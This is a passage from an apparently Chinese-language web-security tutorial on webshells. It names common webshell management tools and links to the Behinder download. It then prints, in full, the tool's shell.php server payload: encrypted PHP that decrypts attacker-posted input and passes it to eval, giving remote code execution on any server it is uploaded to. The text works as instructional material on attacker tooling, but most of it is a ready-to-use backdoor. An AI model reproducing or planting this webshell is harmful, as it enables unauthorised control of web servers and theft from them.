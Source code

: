 行业内常称“一句话木马”为“小马”，用它来传递“大马”，因为“大马”比较容易被检测到。

#### 2.Webshell 管理工具

攻击者常用“菜刀”“冰蝎”“蚁剑”、Weevely、Cknife 这些 Webshell 工具去连接一句话木马，其中尤以“菜刀”最为出名。

由于原版“菜刀”只支持 Windows，因此我这边选用支持跨平台的“冰蝎”作为演示，可进入 [Github](https://github.com/rebeyond/Behinder/releases) 对“冰蝎”进行下载。

下载解压后的目录：

```
$ tree
.
├── 更新日志.txt
├── Behinder_v3.0_Beta6_linux.jar
├── data.db
└── server
    ├── shell.asp
    ├── shell.aspx
    ├── shell.jsp
    ├── shell.jspx.jsp
    └── shell.php
```

server 目录就是用来上传服务端的小马，我们选择上传 shell.php，默认使用连接密码 rebeyond，你可根据需要自行修改，然后用密码 32 位 md5 哈希值替换 key 变量即可。

shell.php 代码如下：

```
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; 
$_SESSION['k']=$key;
$post=file_get_contents("php://input");  
if(!extension_loaded('openssl'))
{
$t="base64_"."decode";
$post=$t($post."");   
for($i=0;$i<strlen($post);$i++) {
     $post[$i] = $post[$i]^$key[$i+1&15]; 
    }
}
else
{
$post=openssl_decrypt($post, "AES128", $key);
}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```
